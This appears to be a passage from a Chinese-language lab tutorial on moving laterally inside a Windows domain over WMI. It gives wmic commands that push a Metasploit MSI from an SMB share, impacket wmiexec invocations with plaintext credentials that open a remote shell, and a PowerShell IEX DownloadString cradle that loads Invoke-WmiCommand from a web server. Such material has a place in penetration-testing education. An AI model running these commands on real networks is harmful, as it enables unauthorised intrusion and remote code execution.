 ​		执行以下命令

```
wmic /node:192.168.30.10 /user:Administrator /password:uu2fu3o@admin product call install PackageLocation="\\192.168.30.20\smb\msf.msi"
```

![msi-pc-dc-wmic](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/another_Intranet_horizontal/msi-pc-dc-wmic.png)

msf未能成功上线，原因为win server2012环境问题，不允许安装msi文件

### 常见利用工具

#### wmiexec

该工具位于impacket项目中，本身是一个py项目，可通过pyinstaller编译为exe文件，上传至windows使用，该工具可以通过提供的用户凭据开启一个半开式或全开的交互式shell，使用该工具需要同时开启135和445端口，其中445端口用于传输执行命令的回显

执行以下命令，使用wmiexec获取一个交互式shell

```python
python wmiexec.py hack/Administrator:uu2fu3o@admin@192.168.14.110
#python wmiexec.py <domain>/<username>:<password>@<IP>
```

![wmiexec-pc](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/another_Intranet_horizontal/wmiexec-pc.png)

执行以下命令将该py项目编译为二进制程序在windows上进行运行

```
pyinstaller -F wmiexec.py
```

或者直接下载现成的exe文件进行使用

https://github.com/maaaaz/impacket-examples-windows

使用效果与使用python进行连接效果相同

#### Invoke-WmiCommand

该项目源于powerspolit，可以通过powershell远程调用wmi来执行命令

将Invoke-WmiCommand.ps1上传至web站点(需要目标机器能够访问下载，最好是已控主机开启的http服务)

在已控主机上执行以下命令

```shell
#远程加载ps脚本
IEX(New-Object Net.Webclient).DownloadString('http://192.168.14.110/Invoke-WmiCommand.ps1')
#指定远程系统用户名
$User = "hack\Administrator"
#指定远程系统用户密码
$Password = ConvertTo-SecureString -String "uu2fu3o@admin" -AsPlainText -Force
#将用户名和密码整合，以便导入Credential
$Cred = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList $User,$Password
#指定远程主机的IP和要执行的命令
$Remote = Invoke-WmiCommand -Payload {ipconfig} -Credential $Cred -ComputerName "192.168.30.10"
#输出命令执行回显
$Remote.PayloadOutput
```
